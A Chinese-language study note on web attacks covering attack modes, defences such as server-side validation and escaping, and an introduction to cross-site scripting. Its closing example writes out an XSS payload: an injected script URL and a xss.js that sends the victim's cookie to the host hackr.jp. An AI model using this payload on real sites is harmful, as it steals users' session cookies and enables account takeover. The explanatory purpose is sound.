```yaml
---
id: de67dd39-92c8-43a6-9e1e-72a8a70d633b
---
```


# Web 攻击

## web 攻击

### 基础

##### 不可信的客户端

- 客户端可以自由变更和篡改 HTTP 请求;
- 服务器将一切来自客户端的请求视为不可信的请求;

##### 攻击模式

- 主动攻击;
  - 攻击者主动访问 Web 应用, 传入攻击代码;
    - SQL 注入;
    - OS 命令注入;
- 被动攻击;
  - 攻击者设置陷阱代码, 诱导用户触发, 用户作为跳板进行攻击;
    - XSS;
    - CSRF;

##### 防御策略

- 客户端验证: 作为 UI 提示, 不可信;
- 服务器验证;
  - 输入值验证: 验证请求参数是否合规;
  - 输入值转义: 将请求参数进行转义, 避免攻击代码;
- 浏览器和服务器的各种安全策略;

### 跨站攻击脚本 (XSS)

##### 跨站攻击脚本

- 被动攻击;
- 攻击者预先设置陷阱代码, 诱导用户访问;
- 攻击者通过运行非法的 HTML 或 JS 进行攻击;
- 目的是盗取用户信息;

```bash
# URL 非法导入 js 脚本
# 用户一旦点击该 URL, 发送自身 cookie 至指定网站
http://example.jp/login?ID="><script src=http://hackr.jp/xss.js></script>"

# xss.js
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```
